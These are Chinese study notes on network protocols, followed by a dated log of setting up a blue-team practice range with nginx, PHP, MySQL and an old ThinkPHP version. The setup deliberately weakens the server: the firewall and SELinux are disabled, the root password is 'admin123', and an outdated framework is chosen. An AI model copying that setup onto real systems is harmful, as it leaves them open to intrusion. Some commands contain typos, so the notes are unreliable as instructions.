网络协议是**为计算机网络中进行数据交换而建立的规则**、标准或者说是约定的集合。因为不同用户的数据终端可能采取的字符集是不同的，两者需要进行通信，必须要在一定的标准上进行。一个很形象地比喻就是我们的语言，我们大天朝地广人多，地方性语言也非常丰富，而且方言之间差距巨大。A地区的方言可能B地区的人根本无法接受，所以我们要为全国人名进行沟通建立一个语言标准，这就是我们的普通话的作用。同样，放眼全球，我们与外国友人沟通的标准语言是英语，所以我们才要苦逼的学习英语。


通用协议：

```
tcp/ip
```

## 网络层次划分

```
应表会传网数物   七层模型
```

```
应表会   传    网    数物   tcp/ip四层模型
```

```
应表会   传    网    数    物    tcp/ip五层模型
```

**七层模型，前面三层模型面向用户，第四层传输层完成数据传输服务**

## OSI七层网络模型


### 物理层

**物理层确保原始的数据可在各种物理媒体上传输。**

物理层记住两个重要的设备名称，中继器（Repeater，也叫放大器）和集线器。

### **数据链路层**

```
1> 数据链路层为网络层提供可靠的数据传输；

　　2> 基本数据单位为帧；

　　3> 主要的协议：以太网协议；

　　4> 两个重要设备名称：网桥和交换机。

3）网络层（Network Layer）
```

### **网络层**

网络层的目的是实现两个端系统之间的数据透明传送，具体功能包括寻址和路由选择、连接的建立、保持和终止等。它提供的服务使传输层不需要了解网络中的数据传输和交换技术。

```
　　1> 网络层负责对子网间的数据包进行路由选择。此外，网络层还可以实现拥塞控制、网际互连等功能；

　　2> 基本数据单位为IP数据报；

　　3> 包含的主要协议：

　　IP协议（Internet Protocol，因特网互联协议）;

　　ICMP协议（Internet Control Message Protocol，因特网控制报文协议）;

　　ARP协议（Address Resolution Protocol，地址解析协议）;

　　RARP协议（Reverse Address Resolution Protocol，逆地址解析协议）。

　　4> 重要的设备：路由器。
```

### **传输层**

第一个端到端，即主机到主机的层次。传输层负责将上层数据分段并提供端到端的、可靠的或不可靠的传输。此外，传输层还要处理端到端的差错控制和流量控制问题。 传输层的任务是根据通信子网的特性，最佳的利用网络资源，为两个端系统的会话层之间，提供建立、维护和取消传输连接的功能，负责端到端的可靠数据传输。在这一层，信息传送的协议数据单元称为段或报文。 网络层只是根据网络地址将源结点发出的数据包传送到目的结点，而传输层则负责将数据可靠地传送到相应的端口。 有关传输层的重点：

```
1> 传输层负责将上层数据分段并提供端到端的、可靠的或不可靠的传输以及端到端的差错控制和流量控制问题；
2> 包含的主要协议：TCP协议（Transmission Control Protocol，传输控制协议）、UDP协议（User Datagram Protocol，用户数据报协议）；
3> 重要设备：网关。
```

### **会话层**

会话层管理主机之间的会话进程，即负责建立、管理、终止进程之间的会话。会话层还利用在数据中插入校验点来实现数据的同步。

### 表示层

表示层对上层数据或信息进行变换以保证一个主机应用层信息可以被另一个主机的应用程序理解。表示层的数据转换包括数据的加密、压缩、格式转换等。

### 应用层

为操作系统或网络应用程序提供访问网络服务的接口。

会话层、表示层和应用层重点：

```
1> 数据传输基本单位为报文；
2> 包含的主要协议：FTP（文件传送协议）、Telnet（远程登录协议）、DNS（域名解析协议）、SMTP（邮件传送协议），POP3协议（邮局协议），HTTP协议（Hyper Text Transfer Protocol）。
```

# 7.24

## 各种协议

### ARP协议

**地址解析协议，即ARP（Address Resolution Protocol），是根据IP地址获取物理地址的一个TCP/IP协议。**

主机发送信息时将包含目标IP地址的ARP请求广播到网络上的所有主机，并接收返回消息，以此确定目标的物理地址；收到返回消息后将该IP地址和物理地址存入本机ARP缓存中并保留一定时间，下次请求时直接查询ARP缓存以节约资源。

地址解析协议是建立在网络中各个主机互相信任的基础上的，网络上的主机可以自主发送ARP应答消息，其他主机收到应答报文时不会检测该报文的真实性就会将其记入本机ARP缓存；由此攻击者就可以向某一主机发送伪ARP应答报文，使其发送的信息无法到达预期的主机或到达错误的主机，这就构成了一个ARP欺骗。

**ARP命令可用于查询本机ARP缓存中IP地址和MAC地址的对应关系、添加或删除静态对应关系等。**

ARP工作流程举例：

主机A的IP地址为192.168.1.1，MAC地址为0A-11-22-33-44-01；

主机B的IP地址为192.168.1.2，MAC地址为0A-11-22-33-44-02；

当主机A要与主机B通信时，地址解析协议可以将主机B的IP地址（192.168.1.2）解析成主机B的MAC地址，以下为**工作流程**：

- （1）根据主机A上的路由表内容，IP确定用于访问主机B的转发IP地址是192.168.1.2。然后A主机在自己的本地ARP缓存中检查主机B的匹配MAC地址。
- （2）如果主机A在ARP缓存中没有找到映射，它将询问192.168.1.2的硬件地址，从而将ARP请求帧广播到本地网络上的所有主机。源主机A的IP地址和MAC地址都包括在ARP请求中。本地网络上的每台主机都接收到ARP请求并且检查是否与自己的IP地址匹配。如果主机发现请求的IP地址与自己的IP地址不匹配，它将丢弃ARP请求。
- （3）主机B确定ARP请求中的IP地址与自己的IP地址匹配，则将主机A的IP地址和MAC地址映射添加到本地ARP缓存中。
- （4）主机B将包含其MAC地址的ARP回复消息直接发送回主机A。
- （5）当主机A收到从主机B发来的ARP回复消息时，会用主机B的IP和MAC地址映射更新ARP缓存。本机缓存是有生存期的，生存期结束后，将再次重复上面的过程。主机B的MAC地址一旦确定，主机A就能向主机B发送IP通信了。

**逆地址解析协议，即RARP，功能和ARP协议相对，其将局域网中某个主机的物理地址转换为IP地址**

，比如局域网中有一台主机只知道物理地址而不知道IP地址，那么可以通过RARP协议发出征求自身IP地址的广播请求，然后由RARP服务器负责回答。

RARP协议工作流程：

- （1）给主机发送一个本地的RARP广播，在此广播包中，声明自己的MAC地址并且请求任何收到此请求的RARP服务器分配一个IP地址；
- （2）本地网段上的RARP服务器收到此请求后，检查其RARP列表，查找该MAC地址对应的IP地址；
- （3）如果存在，RARP服务器就给源主机发送一个响应数据包并将此IP地址提供给对方主机使用；
- （4）如果不存在，RARP服务器对此不做任何的响应；

### 路由选择协议

常见的路由选择协议有：RIP协议、OSPF协议。

**RIP****协议** ：底层是贝尔曼福特算法，它选择路由的度量标准（metric)是跳数，最大跳数是15跳，如果大于15跳，它就会丢弃数据包。

**OSPF****协议** ：Open Shortest Path First开放式最短路径优先，底层是迪杰斯特拉算法，是链路状态路由选择协议，它选择路由的度量标准是带宽，延迟。

### TCP/IP

**TCP/IP协议是Internet最基本的协议、Internet国际互联网络的基础，由网络层的IP协议和传输层的TCP协议组成。通俗而言：TCP负责发现传输的问题，一有问题就发出信号，要求重新传输，直到所有数据安全正确地传输到目的地。而IP是给因特网的每一台联网设备规定一个地址。**

IP层接收由更低层（网络接口层例如以太网设备驱动程序）发来的数据包，并把该数据包发送到更高层---TCP或UDP层；相反，IP层也把从TCP或UDP层接收来的数据包传送到更低层。IP数据包是不可靠的，因为IP并没有做任何事情来确认数据包是否按顺序发送的或者有没有被破坏，IP数据包中含有发送它的主机的地址（源地址）和接收它的主机的地址（目的地址）。

TCP是面向连接的通信协议，通过三次握手建立连接，通讯完成时要拆除连接，由于TCP是面向连接的所以只能用于端到端的通讯。TCP提供的是一种可靠的数据流服务，采用"带重传的肯定确认"技术来实现传输的可靠性。TCP还采用一种称为"滑动窗口"的方式进行流量控制，所谓窗口实际表示接收能力，用以限制发送方的发送速度。

```
ip地址物理地址转换而来
```

IP层接收由更低层（网络接口层例如以太网设备驱动程序）发来的数据包，并把该数据包发送到更高层---TCP或UDP层；相反，IP层也把从TCP或UDP层接收来的数据包传送到更低层。IP数据包是不可靠的，因为IP并没有做任何事情来确认数据包是否按顺序发送的或者有没有被破坏，IP数据包中含有发送它的主机的地址（源地址）和接收它的主机的地址（目的地址）。

TCP是面向连接的通信协议，通过三次握手建立连接，通讯完成时要拆除连接，由于TCP是面向连接的所以只能用于端到端的通讯。TCP提供的是一种可靠的数据流服务，采用"带重传的肯定确认"技术来实现传输的可靠性。TCP还采用一种称为"滑动窗口"的方式进行流量控制，所谓窗口实际表示接收能力，用以限制发送方的发送速度。


```
TCP连接建立过程：首先Client端发送连接请求报文，Server段接受连接后回复ACK报文，并为这次连接分配资源。Client端接收到ACK报文后也向Server段发生ACK报文，并分配资源，这样TCP连接就建立了。

TCP连接断开过程：假设Client端发起中断连接请求，也就是发送FIN报文。Server端接到FIN报文后，意思是说"我Client端没有数据要发给你了"，但是如果你还有数据没有发送完成，则不必急着关闭Socket，可以继续发送数据。所以你先发送ACK，"告诉Client端，你的请求我收到了，但是我还没准备好，请继续你等我的消息"。这个时候Client端就进入FIN_WAIT状态，继续等待Server端的FIN报文。当Server端确定数据已发送完成，则向Client端发送FIN报文，"告诉Client端，好了，我这边数据发完了，准备好关闭连接了"。Client端收到FIN报文后，"就知道可以关闭连接了，但是他还是不相信网络，怕Server端不知道要关闭，所以发送ACK后进入TIME_WAIT状态，如果Server端没有收到ACK则可以重传。"，Server端收到ACK后，"就知道可以断开连接了"。Client端等待了2MSL后依然没有收到回复，则证明Server端已正常关闭，那好，我Client端也可以关闭连接了。Ok，TCP连接就这样关闭了！

为什么要三次握手？

在只有两次"握手"的情形下，假设Client想跟Server建立连接，但是却因为中途连接请求的数据报丢失了，故Client端不得不重新发送一遍；这个时候Server端仅收到一个连接请求，因此可以正常的建立连接。但是，有时候Client端重新发送请求不是因为数据报丢失了，而是有可能数据传输过程因为网络并发量很大在某结点被阻塞了，这种情形下Server端将先后收到2次请求，并持续等待两个Client请求向他发送数据...问题就在这里，Cient端实际上只有一次请求，而Server端却有2个响应，极端的情况可能由于Client端多次重新发送请求数据而导致Server端最后建立了N多个响应在等待，因而造成极大的资源浪费！所以，"三次握手"很有必要！

为什么要四次挥手？

试想一下，假如现在你是客户端你想断开跟Server的所有连接该怎么做？第一步，你自己先停止向Server端发送数据，并等待Server的回复。但事情还没有完，虽然你自身不往Server发送数据了，但是因为你们之前已经建立好平等的连接了，所以此时他也有主动权向你发送数据；故Server端还得终止主动向你发送数据，并等待你的确认。其实，说白了就是保证双方的一个合约的完整执行！

使用TCP的协议：FTP（文件传输协议）、Telnet（远程登录协议）、SMTP（简单邮件传输协议）、POP3（和SMTP相对，用于接收邮件）、HTTP协议等。
```

### UDP

**UDP用户数据报协议，是面向无连接的通讯协议，UDP数据包括目的端口号和源端口号信息，由于通讯不需要连接，所以可以实现广播发送。**

UDP通讯时不需要接收方确认，属于不可靠的传输，可能会出现丢包现象，实际应用中要求程序员编程验证。

UDP与TCP位于同一层，但它不管数据包的顺序、错误或重发。因此，UDP不被应用于那些使用虚电路的面向连接的服务，UDP主要用于那些面向查询---应答的服务，例如NFS。相对于FTP或Telnet，这些服务需要交换的信息量较小。

每个UDP报文分UDP报头和UDP数据区两部分。报头由四个16位长（2字节）字段组成，分别说明该报文的源端口、目的端口、报文长度以及校验值。UDP报头由4个域组成，其中每个域各占用2个字节，具体如下：

- （1）源端口号；
- （2）目标端口号；
- （3）数据报长度；
- （4）校验值。

使用UDP协议包括：TFTP（简单文件传输协议）、SNMP（简单网络管理协议）、DNS（域名解析协议）、NFS、BOOTP。

**TCP** **与** **UDP** **的区别：**TCP是面向连接的，可靠的字节流服务；UDP是面向无连接的，不可靠的数据报服务。

### DNS协议

DNS是域名系统(DomainNameSystem)的缩写，该系统用于命名组织到域层次结构中的计算机和网络服务，**可以简单地理解为将URL转换为IP地址**。域名是由圆点分开一串单词或缩写组成的，每一个域名都对应一个惟一的IP地址，在Internet上域名与IP地址之间是一一对应的，DNS就是进行域名解析的服务器。DNS命名用于Internet等TCP/IP网络中，通过用户友好的名称查找计算机和服务。

### NAT协议

　NAT网络地址转换(Network Address Translation)属接入广域网(WAN)技术，是一种将私有（保留）地址转化为合法IP地址的转换技术，它被广泛应用于各种类型Internet接入方式和各种类型的网络中。原因很简单，NAT不仅完美地解决了lP地址不足的问题，而且还能够有效地避免来自网络外部的攻击，隐藏并保护网络内部的计算机。

### DHCP协议

DHCP动态主机设置协议（Dynamic Host Configuration Protocol）是一个局域网的网络协议，使用UDP协议工作，主要有两个用途：给内部网络或网络服务供应商自动分配IP地址，给用户或者内部网络管理员作为对所有计算机作中央管理的手段。

### HTTP协议

超文本传输协议（HTTP，HyperText Transfer Protocol)是互联网上应用最为广泛的一种网络协议。所有的WWW文件都必须遵守这个标准。　　**HTTP** **协议包括哪些请求？**

GET：请求读取由URL所标志的信息。

POST：给服务器添加信息（如注释）。

PUT：在给定的URL下存储一个文档。

DELETE：删除给定的URL所标志的资源。

　　**HTTP** **中，** **POST** **与** **GET** **的区别**

- ```
  - 1）Get是从服务器上获取数据，Post是向服务器传送数据。
  - 2）Get是把参数数据队列加到提交表单的Action属性所指向的URL中，值和表单内各个字段一一对应，在URL中可以看到。
  - 3）Get传送的数据量小，不能大于2KB；Post传送的数据量较大，一般被默认为不受限制。
  - 4）根据HTTP规范，GET用于信息获取，而且应该是安全的和幂等的。
  
  - I. 所谓 **安全的** 意味着该操作用于获取信息而非修改信息。换句话说，GET请求一般不应产生副作用。就是说，它仅仅是获取资源信息，就像数据库查询一样，不会修改，增加数据，不会影响资源的状态。
  - II. **幂等** 的意味着对同一URL的多个请求应该返回同样的结果。
  ```

  ### 一个举例

  在浏览器中输入 **http://www.baidu.com/** 后执行的全部过程。

  现在假设如果我们在客户端（客户端）浏览器中输入 http://www.baidu.com， 而 baidu.com 为要访问的服务器（服务器），下面详细分析客户端为了访问服务器而执行的一系列关于协议的操作：

  - 1）客户端浏览器通过DNS解析到www.baidu.com的IP地址220.181.27.48，通过这个IP地址找到客户端到服务器的路径。客户端浏览器发起一个HTTP会话到220.161.27.48，然后通过TCP进行封装数据包，输入到网络层。
  - 2）在客户端的传输层，把HTTP会话请求分成报文段，添加源和目的端口，如服务器使用80端口监听客户端的请求，客户端由系统随机选择一个端口如5000，与服务器进行交换，服务器把相应的请求返回给客户端的5000端口。然后使用IP层的IP地址查找目的端。
  - 3）客户端的网络层不用关系应用层或者传输层的东西，主要做的是通过查找路由表确定如何到达服务器，期间可能经过多个路由器，这些都是由路由器来完成的工作，不作过多的描述，无非就是通过查找路由表决定通过那个路径到达服务器。
  - 4）客户端的链路层，包通过链路层发送到路由器，通过邻居协议查找给定IP地址的MAC地址，然后发送ARP请求查找目的地址，如果得到回应后就可以使用ARP的请求应答交换的IP数据包现在就可以传输了，然后发送IP数据包到达服务器的地址。

### ICMP协议

ICMP协议又叫控制报文协议，ICMP协议用于在IP 和 路由器之间传递控制消息，描述网络是否通畅、主机是否可达、路由器是否可用等网络状态，ICMP本身并不传输数据，但对于用户间数据的传递起着重要的作用

作用：
在数据包从源主机传输到目的主机的过程中，会经历一个或多个路由器，而数据包在经过这些路由器传输过程中，可能会遇到很多问题，最终导致数据包没有成功传递给目的主机。为了了解数据包在传输过程中在哪个环节出了问题，就需要用到ICMP协议，它可以跟踪数据包，并把消息返回给源主机。 

```
DNS解析：将域名转换成对应IP地址(本机DNS缓存栈开始找—>逐级向上查找，如果根域服务器找不到，表示公网上没有该域名主机)

找到IP后：通过目的IP找到对应的目的MAC地址

根据目的IP计算目的主机是否和主机A处于同一网段

如在同网段：接通过ARP协议解析出对应的目的MAC，跳转到底9步

如不在同一网段：发送数据报到网关，现在ARP缓存表查找，通过网关IP查找MAC地址，找不到发送查询MAC广播数据报，最终返回网关自己的MAC

交换机转发：在MAC地址转换表中找到对应MAC交换机接口

路由器接收：分用数据报

途中的设备：与第7步同样操作如目的IP对应的MAC地址不是当前设备则继续重复该操作继续往更接近目的IP的路由发送

找到目的主机B，主机B的服务器开始接受分用请求，解析，最终组织响应

同上述操作一样，由主机B向主机A发送数据

最终主机A接受到数据报，经过分用，解析，最终得到响应 
```

# 蓝队靶场溯源

### 配置、环境搭建

安装：

```
docker
docker-compose

```


# 7.25

正式搭建

### 网络配置

安装完成之后发现是一个最小化的centos，所以我们先进行网络配置

首先来更改配置文件，开启网卡暂时开成dhcp动态获取

```
 cd /etc/sysconfig/network-scripts/ //进入网络配置文件所在文件夹
 ls //查看目录下所有文件
 cp ifcfg-ens33 ifcfg-ens33.bak //备份原来的网络配置文件
 ls  //再次查看，是否成功
 vi ifcfg-ens33  编辑网络配置文件
```


设置为动态获取


静态配置示例，这里的ip设成自己的虚拟机网卡所对应的


重启网络并查看网络配置信息是否正确

```
service network restart //重启网络配置
ip addr //查看网卡信息
cat /etc/resolv.conf //查看dns配置，这里可先不看
```


### 服务配置

#### yum安装

关闭防火墙和selinux

```
systemctl stop firewalld --临时关闭防火墙
systemctl disable firewalld --永久关闭防火墙
setenforce 0 --临时关闭selinux
vim /etc/sysconfig/selinux 永久关闭selinux
```


安装apache并启动服务

```
yum install -y httpd 安装apache
systemctl start httpd 启动服务
```

在安装时发现yum源出现了问题，所以我们先来配置一下yum源

```
cd /etc/yum.repos.d 进入yum源文件
ls 查看一下
cp CentOS-Base.repo CentOS-Base.repo.bak 备份原有的配置源文件
ls 查看一下是否成功
cat CentOS-Base.repo.bak 瞅吧眼是否成功copy
```

查看复制


查看源配置文件


这里我们换成阿里的源，找到阿里开源的镜像站，然后查看自己的centos版本号


这里我们直接编辑CentOS-Base-repo文件，替换成下面的

```
[base]
name=CentOS-$releasever - Base - Aliyun
baseurl=http://mirrors.aliyun.com/centos/$releasever/os/$basearch/
gpgcheck=1
gpgkey=http://mirrors.aliyun.com/centos/RPM-GPG-KEY-CentOS-7
 
#released updates 
[updates]
name=CentOS-$releasever - Updates - Aliyun
baseurl=http://mirrors.aliyuncom/centos/$releasever/updates/$basearch/
gpgcheck=1
gpgkey=http://mirrors.aliyun.com/centos/RPM-GPG-KEY-CentOS-7
 
#additional packages that may be useful
[extras]
name=CentOS-$releasever - Extras - Aliyun
baseurl=http://mirrors.aliyun.com/centos/$releasever/extras/$basearch/
gpgcheck=1
gpgkey=http://mirrors.aliyun.com/centos/RPM-GPG-KEY-CentOS-7
 
#additional packages that extend functionality of existing packages
[centosplus]
name=CentOS-$releasever - Plus - Aliyun
baseurl=http://mirrors.aliyun.com/centos/$releasever/centosplus/$basearch/
gpgcheck=1
enabled=0
gpgkey=http://mirrors.aliyun.com/centos/RPM-GPG-KEY-CentOS-7
```


输入yum发现配置源成功


#### apache、php、thinkphp安装

安装apache

```
yuminstall -y httpd
```


安装成功但是未启动

启动apache服务

```
systemctl start httpd
```


安装php，为了解析thinkphp源码，使网站可读

```
yum update
yum install  php
```


这里我们装的5.4.16的版本

然后找到thinkphp的低版本


这里我们下载到本机

开启web服务，然后将zip文件放在web目录下，再去请求，就可以省去代理的步骤

```
 192.168.15.56/framework-5.0.23.zip //请求地址
```


成功下载文件，将压缩包解压缩到www目录下

下载一个unzip解压缩文件


解压缩文件

```
unzip framework-5.0.23 解压缩
ls 查看文件
```


解压缩成功，将文件重命名为 thinkphp

```
mv framework-5.0.23 thinkphp 重命名文件
ls 查看
rm framework-5.0.23 删除文件
```


为了能让apache启动thinkphp服务，做以下配置

首先找到http.conf文件

```
cd etc/httpd/conf 切到此目录下
ls 找到httpd.conf 文件
```

编辑httpd.conf文件

```
yum install vim 下载vim编辑器
vim httpd.conf 编辑文件
dd 删除
```

将新增配置添加到文件

```
# 开启 PHP 模块
LoadModule php_module modules/mod_php.so
 
# 设置 PHP 解析器的路径
AddHandler php-script .php
PHPIniDir "/etc/php.ini" #php解析器路径
 
# 设置默认文档为 index.php
DirectoryIndex index.php
 
# 配置虚拟主机
<VirtualHost *:80>
    DocumentRoot "/var/www/html" #apache web路径
    ServerName 127.0.0.1   #标识是哪个网站，类似监听这个网#站
    ErrorLog "logs/example.com-error.log"
    CustomLog "logs/example.com-access.log" common
</VirtualHost>
```


#### nginx安装、php-fpm

后续发现太麻烦了，改成nginx

```
yun install epel-release 安装第三方软件库

源出问题了，换源，加一个阿里的epel源
wget -O /etc/yum.repos.d/epel.repo https://mirrors.aliyun.com/repo/epel-7.repo

yum install nginx 安装nginx服务

systemctl start nginx 开启nginx服务
```

安装第三方软件库


安装nginx



启动并查看状态


访问查看nginx是否建站成功


前面的php已经安装好，现在来联动nginx和php来运行thinkphp

这里我们要安装PHP-FPM(一种引用了fastcgi技术的接口)

```
php-fpm是连接nginx（服务器）和php的桥梁，使nginx可以解析php代码
```


直接执行程序，可以看到可以执行-


然后更改php-fpm.conf

```
vim /etc/php-fpm.conf 将里面的监听端口形式改成本地sock形式
```

然后切到nginx配置文件，vim修改，这里的文件我们是nginx.conf.default,修改成下面这样


找到nginx的默认路径


在此路径下面vim一个index.php文件，在里面编辑php代码文件

尝试访问页面看是否解析成功

可以看到能够成功解析


#### thinkphp框架

然后我们将之前下载好的thinkphp文件cp到我们的web目录下

```
cp thinkphp /usr/share/nginx/html 将thinkphp文件放在web下
```

# 7.26

这里要在搭好的thinkphp框架上去搭建其他服务，还需要mysql服务

#### mysql安装

删除原有数据

这里yum下载mysql数据库，下载成了php-mysqlnd，找到这个安装包，将其删除

```
rpm -qa | grep mysql 找是否有已下载的mysql安装包
rpm -qa | grep mysql | xargs yum -y remove //批量化 删除安装包
rpm -qa | grep mysql 再查看是否有安装包
```

发现删除干净


检查是否有mysql的残留和配置文件

```
ls /etc/my.cnf //检查是否有配置文件
rm -rf /etc/my.cnf //删除配置文件
```

可以看见删除干净，没有文件了


最后检查是否还有mysql文件

```
whereis mysqlm    查看相关mysql文件
find / -name mysql   
rm -rf /usr/bin/mysql(等)  删除相关目录，相关文件
find / -name mysql  验证是否删除完毕
which mysql  检测是都含有客户端
which mysqld  检测是否含有服务端
```

删除干净，可以安装mysql了



查看自己的centos版本


下载对应的安装包


将东西上传到web目录下，再下载



解压缩文件

```
rpm -ivh mysql157-community-release-e17-11.noarch.rpm
```

检查是否解压成功

```
ls /etc/yum.repos.d/ -l  检查是否解压成功
```

发现出现两个文件，则代表解压缩成功


正式安装

```
yum install -y mysql-community-server
```


检查是否安装成功


尝试启动服务，并且尝试登录，发现无法登录，因为我们没有密码


```
SET PASSWORD FOR 'root'@'localhost' = PASSWORD('admin123')
```

修改配置文件

```
vim /etc/my.cnf  
```

在最后一行加上

```
skip-grant-tables 
```

再次输入mysql -u root -p 这里不输入密码，回车进入数据库

输入修改密码语句

```
FLUSH PRIVILEGES;
ALTER USER 'root'@'localhost' IDENTIFIED BY 'admin123';
```

修改密码成功


再次修改cnf文件，将新增行删除


检测数据库无异常

密码设置成功

对于mysql做一些配置

```
vim /etc/my.cnf   // 进入MySQL 的配置文件
port=3306
character-set-server=utf8
default-storage-engine=innodb
```


# 7.29

#### 完善web服务

首先关闭防火墙

然后打开所有服务，nginx，php-fpm，mysql

找到thinkphp的cms

```
通过本地下载
```

下载后通过指引安装

```
在浏览器打开地址就会开始安装：
http://192.168.83.156/NoneCMS/public/install/index.php
```

```
http://192.168.108.1/Boot-CMS-master.zip
```

# 7.30

报错

# 7.31

报错

# 8.1

发现报错第一个原因是因为，在nginx配置文件中，仅改正了三分之一的配置文件，应该全部都和php相关联

第二个报错还是发现是php的版本问题，不想搞了你大爷的。

### 更换php版本5.6

还是将php版本改为5.6以上

删除原来的php版本

```
sudo yum remove php* -y
```

再查看是否删除干净

安装php5.6

#### 安装remi

```
sudo yum install -y https://rpms.remirepo.net/enterprise/remi-release-7.rpm
```


#### 安装yum工具

来配置remi仓库

```
sudo yum install -y yum-utils
```


#### 启用php5.6版本的remi仓库

```
sudo yum-config-manager --enable remi-php56
```


#### 安装php、php-fpm、php-common

```
sudo yum install -y php php-cli php-fpm php-common
```


#### 查看php、php-fpm版本


终于成功！！

然后将etc/nginx/nginx.conf文件进行一个修改，改一下端口或者fpm.sock文件的地址

尝试访问


可以看到更改版本成功

更改一下未启用的拓展

#### php启用gd拓展

php启用php56remi仓库

```
sudo yum-config-manager --enable remi-php56
下载php-gd yum install php-gd
```




下载好拓展之后重启php-fpm


发现支持php-fpm了


#### php启用mbstring拓展

使用remi56仓库

```
sudo yum-config-manager --enable remi-php56
```

下载php-mbstring拓展

```
sudo yum install php php-mbstring
```


重启php-fpm


发现支持mbstring拓展

#### php启用mysql拓展

一样的步骤

然后直接下载php-mysql拓展


重启php-fpm服务，可以看到已经OK了


### 安装cms


下一步，安装成功


访问网站首页，勉强成功，后台还是报错


# 8.2

解决报错发现是伪静态的原因，修改了一下nginx的配置文件，对于php文件格式的解析，做了更详细的配置，解决了后台报错。主页面报错是因为，图片前面有跟/，会被js解析成根目录下的图片，所以加载不出来，手动去改，就可以看到图片。

## **补充小知识**

### 伪静态

#### fastcgi

##### cgi

通用网关接口（Common Gateway Interface/CGI）描述了客户端和服务器程序之间传输数据的一种标准，可以让一个客户端从网页浏览器向执行在网络服务器上的程序请求数据。CGI 独立于任何语言的，CGI 程序可以用任何脚本语言或者是完全独立编程语言实现，只要这个语言可以在这个系统上运行。


```
1、用户通过浏览器访问服务器, 发送了一个请求, 请求的url如上

2、服务器接收数据, 对接收的数据进行解析

3、nginx对于一些登录数据不知道如何处理, nginx将数据发送给了cgi程序

4、服务器端会创建一个cgi进程，CGI进程执行
加载配置, 如果有需求加载配置文件获取数据
连接其他服务器: 比如数据库
逻辑处理得到结果， 将结果发送给服务器
线程结束生命退出

5、服务器将cgi处理结果发送给客户端
6、弊端：在服务器端CGI进程会被频繁的创建销毁，服务器开销大, 效率低
```

##### fastcgi

快速通用网关接口FastCommonGatewayInterface是通用网关接口CGI的改进，描述了客户端和服务器程序之间传输数据的一种标准。

FastCGI致力于减少Web服务器与CGI程序之间互动的开销，从而使服务器可以同时处理更多的Web请求。

与为每个请求创建新的进程不同，FastCGI使用持续的进程来处理一连串的请求（线程不会被销毁）。

这些进程由FastCGI进程管理器管理，而不是web服务器。

fastCGI与CGI的区别：CGI 就是所谓的短生存期应用程序，FastCGI 就是所谓的长生存期应用程序。FastCGI像是一个常驻(long-live)型的CGI，它可以一直执行着，不会每次都要花费时间去fork一次


```
1、用户通过浏览器访问服务器, 发送了一个请求, 请求的url如上

2、服务器接收数据, 对接收的数据进行解析

3nginx对于一些登录数据不知道如何处理, nginx将数据发送给了fastcgi程序
通过本地套接字
网络通信的方式

4、fastCGI程序如何启动：不是有web服务器直接启动，通过一个fastCGI进程管理器启动
加载配置（可选）
连接服务器 - 数据库，循环
服务器有请求 -> 处理，将处理结果发送给服务器：本地套接字、网络通信
没有请求 -> 阻塞

5、服务器将fastCGI的处理结果发送给客户端

6、fastcgi启动
```

**nginx+fastcgi**

nginx不能像apache那样直接执行外部可执行程序，但nginx可以作为代理服务器，将请求转发给后端服务器（主要作用），

其中nginx就可以支持FastCGI作为代理，由nginx接收客户端的请求，然后将请求转发给fastcgi进程进行实际处理。

使用spawn-fcgi作为FastCGI进程的管理器，管理fastcgi进程，spawn-fcgi使用pre-fork 模型，功能主要是打开监听端口，绑定地址，然后fork-and-exec创建我们编写的fastcgi应用程序进程，退出完成工作。


```
客户端访问, 发送请求
nginx web服务器, 无法处理用户提交的数据
spawn-fcgi - 通信过程中的服务器角色
被动接收数据
在spawn-fcgi启动的时候给其绑定IP和端口
fastCGI程序
开发者编写的 -> login.c -> 可执行程序( login )
使用 spawn-fcgi 进程管理器启动 login 程序, 得到一进程
```

**nginx的数据转发**

需要修改nginx的配置文件 nginx.conf

```
通过请求的 url http://localhost/login?user=zhang3&passwd=123456&age=12&sex=man 转换为一个指令:
	- 去掉协议
	- 去掉域名/IP + 端口
	- 如果尾部有文件名 去掉
	- 去掉 ? + 后边的字符串
	- 剩下的就是服务器要处理的指令: /login
location /login
{
    # 转发这个数据, fastCGI进程
    fastcgi_pass 地址信息:端口;
    # fastcgi.conf 和nginx.conf在同一级目录: /usr/local/nginx/conf
    # 这个文件中定义了一些http通信的时候用到环境变量, nginx赋值的
    include fastcgi.conf;
}
地址信息: 
	- localhost
	- 127.0.0.1
	- 192.168.1.100
端口: 找一个空闲的没有被占用的端口即可
```

**spawn-fcgi启动**

```
# 前提条件: fastCGI程序已经编写完毕 -> 可执行文件 login
spawn-fcgi -a IP地址 -p 端口 -f fastcgi可执行程序
 - IP地址: 应该和nginx的 fastcgi_pass 配置项对应
 	- nginx: localhost   ->   IP: 127.0.0.1
	- nginx: 127.0.0.1	 ->   IP: 127.0.0.1
	- nginx: 192.168.1.100   ->    IP: 192.168.1.100
- 端口:
	应该和nginx的 fastcgi_pass 中的端口一致
```

**fastCGI进程处理**

```
// http://localhost/login?user=zhang3&passwd=123456&age=12&sex=man
// 要包含的头文件
#include "fcgi_config.h" // 可选
#include "fcgi_stdio.h" // 必须的, 编译的时候找不到这个头文件, find->path , gcc -I
// 编写代码的流程
int main()
{
    // FCGI_Accept()是一个阻塞函数, nginx给fastcgi程序发送数据的时候解除阻塞
    while (FCGI_Accept() >= 0)
    {
        // 1. 接收数据
        // 1.1 get方式提交数据 - 数据在请求行的第二部分
        // user=zhang3&passwd=123456&age=12&sex=man
        char *text = getenv("QUERY_STRING"); 
        // 1.2 post方式提交数据
        char *contentLength = getenv("CONTENT_LENGTH");
        // 根据长度大小判断是否需要循环
        
        // 2. 按照业务流程进行处理
        
        // 3. 将处理结果发送给nginx（纯文本|json|html|...）
        // 数据回发的时候, 需要告诉nginx处理结果的格式 - 假设是html格式
        printf("Content-type: text/html\r\n");
        printf("<html>处理结果</html>");
    }
}

```

- 一个文件描述符在内核中对应两块缓冲区，读缓冲区、写缓冲区
- 利用dup2函数对标准输入输出进行了重定向，重定向到fd对应的读写缓冲区中
- 所以对标准输入输出的操作其实就是对fd文件描述符的操作


**fastcgi总结**

fastCGI是什么?：运行在服务器端的代码, 帮助服务器处理客户端提交的动态请求

fastCGI作用：帮助服务器处理客户端提交的动态请求，

fastCGI如何使用？

**fastCGI如何获取数据？nginx解析客户端发送的http请求然后转发**

```
分析出客户端请求对应的指令 -- /test
location /test
{
    # nginx转发出去给fastcgi程序
    fastcgi_pass 地址:端口;
    include fastcgi.conf;//nginx对http请求解析得到的环境变量
}

```

**fastcgi如何接收数据？spawn-fcgi与fastcgi是父子进程关系，**

```
# 启动, 通过spawn-fcgi启动
spawn-fcgi -a IP -p port -f ./fcgi
# 编写fastCGI程序的时候
 - 接收数据: 调用读终端的函数就是接收数据
